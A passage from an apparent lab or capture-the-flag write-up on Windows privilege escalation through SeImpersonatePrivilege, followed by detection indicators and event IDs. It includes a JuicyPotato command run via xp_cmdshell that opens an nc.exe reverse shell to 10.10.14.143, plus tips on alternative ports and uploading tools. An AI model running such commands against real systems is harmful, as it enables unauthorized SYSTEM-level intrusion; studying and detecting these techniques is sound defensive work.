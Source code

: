 #### Using JuicyPotato (for older systems)
```cmd
# If PrintSpoofer fails, try JuicyPotato
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.143 8443 -e cmd.exe" -t *
```

### Key Success Indicators

1. **✅ SeImpersonatePrivilege Enabled** - Confirmed in step 3
2. **✅ PrintSpoofer Success Message** - `[+] Found privilege: SeImpersonatePrivilege`
3. **✅ SYSTEM Shell Received** - `whoami` returns `nt authority\system`
4. **✅ Flag Retrieved** - Successfully read from Administrator desktop

### Troubleshooting Common Issues

#### If PrintSpoofer Fails:
```cmd
# Try alternative tools based on OS version:
# Windows Server 2016 and below: JuicyPotato
# Windows 10/Server 2019+: PrintSpoofer, RoguePotato
```

#### If Connection Issues:
```cmd
# Verify firewall rules and network connectivity
# Try different ports: 443, 80, 8080, 9001
```

#### If Tools Not Present:
```cmd
# Upload tools first (may require web shell or other upload method)
# Or use PowerShell-based alternatives
```

## 🔍 Detection Indicators

### Process Behavior
```cmd
# Unusual SYSTEM processes spawned from service accounts
# COM server listening on high ports
# Named pipe creation by non-privileged accounts
# Print Spooler service interactions
```

### Event Logs
- **Event ID 4648** - Explicit credential logon (token impersonation)
- **Event ID 4672** - Special privileges assigned to logon
- **Event ID 4624** - Account logon events

## 🛡️ Defense Strategies
